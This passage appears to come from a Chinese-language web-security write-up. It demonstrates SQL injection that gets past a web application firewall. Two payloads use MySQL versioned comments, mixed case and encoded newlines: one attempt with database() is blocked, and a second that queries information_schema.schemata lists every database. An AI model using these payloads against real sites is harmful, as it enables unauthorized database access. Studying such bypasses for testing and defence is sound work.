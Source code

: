 ![Alt text](image-43.png)   
查询当前数据库信息。   
```sql
 1' regexp '%0A%23'   /*!11145UniOn %0ASeLect*/ /*!database()*/,2 -- 
```   
![Alt text](image-44.png)   
被拦截，可以认为 `database`被拦截，更换其他方式。   
```sql
 1' regexp '%0A%23'   /*!11145UniOn %0ASeLect*/ group_concat(/*!11145schema_name)*/,2 /*!%23%0A/*!from *//*!11145--+/*%0AinforMation_schEma*//*!11145.sCheMata*/ --+
```   
成功获得所有数据库。   